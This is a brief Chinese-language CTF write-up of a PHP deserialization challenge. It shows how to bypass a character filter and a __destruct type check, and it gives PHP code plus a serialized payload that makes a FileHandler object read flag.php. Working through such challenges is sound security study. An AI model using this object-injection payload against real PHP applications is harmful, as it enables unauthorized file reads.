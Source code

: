 首先调用了$is_valid函数，找到它，发现这个过滤了除ASCII码32到125

反序列化的时候会出现\00*\00

php7.1以上的版本public属性序列化不会出现上述字符，可以用public属性来绕过

我们发现只需要让$op弱等于2，就可以执行read函数，让$filename的值的为flag.php

就可以执行file_get_contents('flag.php')

我们看到里面还存在一个魔术方法_destruct()，对象销毁时会调用，序列化和反序列化都会进行对象销毁，如果op强等于2的话，就会使得op的值变为1

$content的话不管输入什么都会变为空

可以令$op为整型2进习绕过

可以构造出

```php
<?php
 
class FileHandler {
 
    public $op = 2;
    public  $filename = "flag.php";
    public  $content = "hahah";
}
 
$a = new FileHandler();
$b = serialize($a);
echo $b;
 
?>
```

跑一下得到payload

```php
O:11:"FileHandler":3:{s:2:"op";i:2;s:8:"filename";s:8:"flag.php";s:7:"content";s:5:"hahah";}
```

用get方式传参str，f12得到flag

![image-20220319113753052](https://gitee.com/zhl250/ctfwiki/raw/master/image-20220319113753052.png)